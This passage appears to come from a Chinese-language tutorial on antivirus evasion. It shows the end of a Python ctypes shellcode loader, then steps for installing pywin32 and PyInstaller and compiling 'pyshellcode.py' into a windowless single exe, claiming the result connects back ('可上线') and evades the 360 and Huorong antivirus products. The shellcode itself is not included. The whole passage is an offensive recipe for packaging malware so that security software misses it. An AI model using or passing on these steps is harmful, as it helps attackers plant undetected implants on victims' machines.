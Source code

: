 ```
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

然后要使用PyInstaller将py转为exe，pyinstaller依赖于pywin32，在使用pyinstaller之前，应先安装pywin32。

pywin32下载后，点击下一步安装即可`https://sourceforge.net/projects/pywin32/files/pywin32`

pyinstaller 下载`https://github.com/pyinstaller/pyinstaller/releases`，解压，安装好依赖包`pip install -r requirements.txt`，即可使用。

![c30ecaf112f07f7e49f2824c7956e31e](images/2020.04-bypass-05/2.png)

将`pyshellcode.py`复制到`C:\Python27_x86\pyinstaller`目录中，在该目录下执行命令编译exe：
```
python pyinstaller.py -F -w pyshellcode.py
```

执行生成的exe(文件大小3.4M)，可上线，可过360和火绒
